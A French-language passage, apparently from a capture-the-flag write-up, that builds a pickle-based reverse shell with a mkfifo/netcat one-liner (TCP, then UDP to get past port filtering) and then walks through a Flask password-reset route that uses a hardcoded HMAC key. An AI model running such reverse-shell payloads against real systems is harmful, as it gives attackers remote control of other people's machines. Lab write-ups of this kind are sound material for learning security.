 # Reverse Shell 

Changeons le script pour faire un shell inversé. J'utiliserai une commande pentestmonkey pour faire mon reverse shell.

```python
return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.17 9001 >/tmp/f',)) 
```

J'ai essayé la commande ci-dessus, et j'ai également essayé une autre commande comme wget, mais cela n'a pas fonctionné, elle n'accepte pas les connexions TCP uniquement 21 et 1337. J'ai dû changer le mode de communication en faisant un shell inversé UDP. J'ai seulement ajouté l'option -u pour spécifier qu'il s'agit du mode UDP.

```python
return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 192.168.0.17 9001 >/tmp/f',)) 
```

Il faut maintenant utiliser la commande netcat pour écouter un port et surtout ne pas oublier l'option -u pour spécifier le protocole UDP. Et si maintenant, je lance le script, le serveur me renvoie un shell.

```python
@app.route('/reset', methods=["GET", "POST"]) 
@requires_auth 
def reset_page(): 
    if request.method == "POST" and request.form["username"] and request.form["key"]: 
        key = "dpff43f3p214k31301" 
        raw = request.form["username"] + key + socket.gethostbyname(socket.gethostname()) 
        hashed = hmac.new(key, raw, hashlib.sha1) 
        if request.form["key"] == hashed.hexdigest(): 
            return base64.b64encode(hashed.digest().encode("base64").rstrip("\n")) 
        else: 
            return "Server Error!" 
```

Nous pouvons voir qu'il existe une condition qui teste si la méthode est POST et teste également si le nom d'utilisateur et le paramètre clé existent.

```python
if request.method == "POST" and request.form["username"] and request.form["key"] 
```

Ensuite, il y a une clé.

```python
key = "dpff43f3p214k31301" 
```

Puis concrètement, il récupère l'argument utilisateur et le fusionne avec la clé et avec l'adresse IP locale.

```python
raw = request.form["username"] + key + socket.gethostbyname(socket.gethostname()) 
```
